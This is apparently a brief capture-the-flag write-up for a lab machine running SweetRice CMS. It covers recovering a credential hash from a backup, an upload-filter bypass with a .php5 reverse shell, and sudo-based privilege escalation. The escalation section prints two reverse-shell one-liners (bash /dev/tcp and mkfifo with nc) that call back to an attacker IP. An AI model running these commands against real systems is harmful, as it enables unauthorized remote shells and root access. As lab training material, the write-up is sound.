




\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"
again from some digging got this  page 
http://10.10.51.131/content/as/

https://www.sweetrice.xyz/docs/5-things-need-to-be-done-when-SweetRice-installed/ got this 

http://10.10.51.131/content/inc/. got the list of directories from it

cracking the hash we got from the backup file 
Password123

logging in with cred manager and password: Password123

we see a wordpress like file 
and file upload option there we uploaded our reverseshell.php5 since php is not allowed
### privilege escalaition
sudo -l gives /home/itguy/backup.pl file
it shows that backup.pl runs /etc/test.sh  now modifying the etc/test.sh to run reverse shell on our attacking machine.
bash -i >& /dev/tcp/10.17.#.#/8080 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.56.56 3333 >/tmp/f

which gives us our root bash
running cat /root/root.txt gives us the rootflag
